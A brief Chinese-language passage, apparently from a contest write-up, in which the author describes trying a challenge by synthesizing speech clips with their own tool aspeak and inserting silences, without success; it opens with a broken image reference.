

我还用我写的 [`aspeak`](https://github.com/kxxt/aspeak) 合成语音片段，中间插上空白，尝试了一下 我用108天录了个音 这道题。然而并没有过。
